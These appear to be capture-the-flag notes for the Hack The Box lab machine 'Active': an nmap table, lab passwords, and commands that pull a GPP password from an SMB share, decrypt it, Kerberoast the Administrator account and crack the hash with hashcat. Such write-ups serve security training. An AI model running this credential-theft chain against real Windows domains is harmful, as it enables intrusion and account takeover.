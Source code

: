 # Active
| Name | IP | Difficulty | OS |
| active | 10.10.10.100 | Windows | Easy |

## Nmap
| HOST | PORT | PROTO | SERVICE | VERSION
| 10.10.10.100 | 135 | tcp | Microsoft Windows RPC |  | 
| 10.10.10.100 | 139 | tcp | Microsoft Windows netbios-ssn |  | 
| 10.10.10.100 | 3268 | tcp | Microsoft Windows Active Directory LDAP |  | 
| 10.10.10.100 | 3269 | tcp |  |  | 
| 10.10.10.100 | 389 | tcp | Microsoft Windows Active Directory LDAP |  | 
| 10.10.10.100 | 445 | tcp |  |  | 
| 10.10.10.100 | 464 | tcp |  |  | 
| 10.10.10.100 | 49152 | tcp | Microsoft Windows RPC |  | 
| 10.10.10.100 | 49153 | tcp | Microsoft Windows RPC |  | 
| 10.10.10.100 | 49154 | tcp | Microsoft Windows RPC |  | 
| 10.10.10.100 | 49155 | tcp | Microsoft Windows RPC |  | 
| 10.10.10.100 | 49157 | tcp | Microsoft Windows RPC over HTTP | 1.0 | 
| 10.10.10.100 | 49158 | tcp | Microsoft Windows RPC |  | 
| 10.10.10.100 | 49165 | tcp | Microsoft Windows RPC |  | 
| 10.10.10.100 | 53 | tcp | Microsoft DNS | 6.1.7601 (1DB15D39) | 
| 10.10.10.100 | 593 | tcp | Microsoft Windows RPC over HTTP | 1.0 | 
| 10.10.10.100 | 636 | tcp |  |  | 
| 10.10.10.100 | 88 | tcp | Microsoft Windows Kerberos |  | 

## HEADERS



## DIRECTORIES



## USERS

- svc_tgs GPPstillStandingStrong2k18
- Administrator Ticketmaster1968

## NOTES

- Replication share is readable `smbmap -H 10.10.10.100`
- Groups.xml in the share `smbmap -R Replication -H 10.10.10.100 --depth 10`
- Download Groups.xml `smbmap -R Replication -H 10.10.10.100 --depth 10 -A Groups.xml -q`
- svc_tgs user and password in Groups.xml
- Use gpp-decrypt to decrypt the password
- Download the user flag `smbmap -u svc_tgs -p GPPstillStandingStrong2k18 -d active.htb -H 10.10.10.100 --download 'C:\Users\SVC_TGS\Desktop\user.txt'`
- Administrator is Kerberoastable `GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs`
- Kerberoast `GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs:GPPstillStandingStrong2k18 -outputfile active_spns.txt`
- Crack the hash with hashcat `.\hashcat.exe -m 13100 .\hashes\active-htb.txt .\wordlists\rockyou.txt
- Download the root flag 'smbmap -u Administrator -p Ticketmaster1968 -d active.htb -H 10.10.10.100 -R Users -A root.txt -q`
